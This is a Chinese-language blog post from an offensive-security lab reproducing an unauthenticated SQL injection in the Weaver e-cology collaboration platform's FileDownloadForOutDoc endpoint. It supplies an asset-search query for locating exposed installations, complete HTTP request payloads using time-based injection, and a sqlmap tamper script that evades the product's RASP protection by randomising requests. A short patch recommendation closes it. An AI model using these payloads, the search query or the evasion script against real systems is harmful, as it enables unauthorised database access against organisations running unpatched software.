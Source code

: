 #  【漏洞复现】泛微e-cology 前台未授权sql注入

原创 请君江南扫落花  [ 暗魂攻防实验室 ](javascript:void\(0\);)

**暗魂攻防实验室** ![]()

微信号 anhunsec-red

功能介绍 专注于网络空间安全、红蓝攻防对抗、渗透测试等技术研究

____

___发表于_

收录于合集 #漏洞复现 10个

**点击蓝字**![](https://gitee.com/fuli009/images/raw/master/public/20230715093502.png)
**关注我们**

![]()

  

  
![](https://gitee.com/fuli009/images/raw/master/public/20230715093503.png)  
![](https://gitee.com/fuli009/images/raw/master/public/20230715093504.png)
**微信搜一搜**![](https://gitee.com/fuli009/images/raw/master/public/20230715093505.png)
暗魂攻防实验室

## 漏洞介绍

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。

泛微e-cology FileDownloadForOutDoc
未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

## 影响版本

部分e-cology 8且补丁版本<10.58.0

部分e-cology 9且补丁版本<10.58.0

  

## 资产测绘

app="泛微-协同商务系统"

  

## 漏洞复现

1.访问泛微OA业务系统

![](https://gitee.com/fuli009/images/raw/master/public/20230715093506.png)

2.检测payload

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid=3+WAITFOR+DELAY+'0:0:5'&isFromOutImg=1

3.由于泛微OA启用了RASP，同一个请求执行两次会被拦截，所以需要在请求包中添加随机参数；下面是RASP的介绍

RASP是Runtime Application Self-
Protection（运行时应用自我保护）的缩写，是一种用于保护应用程序免受攻击的安全技术。它是在应用程序运行时进行安全检测和保护的一种方法，可以在应用程序本身内部或与应用程序紧密集成的组件中实现。

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid={random}+WAITFOR+DELAY+'0:0:5'&isFromOutImg=1

4.加载tamper脚本进行注入

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    import randomfrom lib.core.enums import PRIORITY  
    __priority__ = PRIORITY.HIGH  
      
    def tamper(payload, **kwargs):  res = ""  ran = random.randint(1,2**20)  res = str(ran)+payload  return res

![](https://gitee.com/fuli009/images/raw/master/public/20230715093508.png)

## 修复建议

目前官方已发布安全补丁，建议受影响用户尽快将补丁版本升级至10.58及以上。

https://www.weaver.com.cn/cs/securityDownload.asp#

  

![](https://gitee.com/fuli009/images/raw/master/public/20230715093509.png)  
![](https://gitee.com/fuli009/images/raw/master/public/20230715093510.png)

●[浅谈两种复现方式实现PDF_XSS](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487941&idx=1&sn=3ae42f268164ca46de5eb5c5d3f841bb&chksm=c1f9f93ef68e702824548e6882a335a946fbfcd84f8e697744ff1b21da4d86c53178129140bd&scene=21#wechat_redirect)

●[anhunsec_redteam_V2.5
正式版红队渗透系统简介](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487905&idx=1&sn=e15c3473d01e3c3df522e3edcf81f198&chksm=c1f9f95af68e704ccfd7daa07e310a2de04cb741d3b946a3321c2c4eb7ea062928495b9fc063&scene=21#wechat_redirect)

●[一文读懂面试官都在问的shiro漏洞](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487895&idx=1&sn=f3b1e70ae912d804c4ae6d38e3d4c728&chksm=c1f9f96cf68e707aafebbd1822d9d83bb316d5f7c26fe120576eca24f15e38c09ba0e6c7b47a&scene=21#wechat_redirect)

●[记一次小程序渗透测试](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487893&idx=1&sn=2ab5b85f426c11767045e54d193157f8&chksm=c1f9f96ef68e70781bce82144f65db363f28507add488da1b0c34c4c3581094ecfad51933e38&scene=21#wechat_redirect)

![](https://gitee.com/fuli009/images/raw/master/public/20230715093511.png)![](https://gitee.com/fuli009/images/raw/master/public/20230715093512.png)微信搜一搜![](https://gitee.com/fuli009/images/raw/master/public/20230715093513.png)暗魂攻防实验室

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

